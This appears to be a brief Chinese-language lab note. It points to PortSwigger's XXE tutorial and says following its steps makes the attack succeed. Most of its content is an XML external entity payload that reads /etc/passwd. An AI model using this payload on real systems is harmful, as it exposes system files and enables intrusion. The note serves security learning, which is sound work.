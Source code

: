 https://portswigger.net/web-security/xxe

順著上方教學的步驟做即可攻擊成功

payload:
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>
```

